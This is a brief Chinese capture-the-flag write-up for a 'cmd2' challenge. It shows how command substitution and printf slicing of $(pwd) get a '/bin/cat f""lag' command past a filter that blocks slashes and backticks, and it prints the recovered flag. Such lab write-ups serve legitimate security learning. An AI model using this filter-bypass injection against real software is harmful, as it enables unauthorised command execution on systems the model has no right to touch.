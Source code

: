 ## Pwn
具體解法和前一題差不多，只是這次 `filter()` 會擋 `/`, `backtick`

目標指令：
```
./cmd2 '/bin/cat f""lag'
```

但 `/` 不能輸入，所以我們要找其他方法產生 `/` 這個字元。

有趣的是 `filter()` 雖然擋了 backtick，但沒有擋 `$()`。

使用 shell built-in command "printf" 可以從 $(pwd) 切除一個 `/`

```
cmd2@prowl:~$ ./cmd2 'echo $(printf %.1s $(pwd))'
echo $(printf %.1s $(pwd))
/
```

想辦法用這樣的 command substitution + printf string formatting 拼湊出目標指令即可
```
cmd2@prowl:~$ ./cmd2 '$(printf "%.1sbin%.1scat" $(pwd) $(pwd)) f""lag'
$(printf "%.1sbin%.1scat" $(pwd) $(pwd)) f""lag
FuN_w1th_5h3ll_v4riabl3s_haha
```
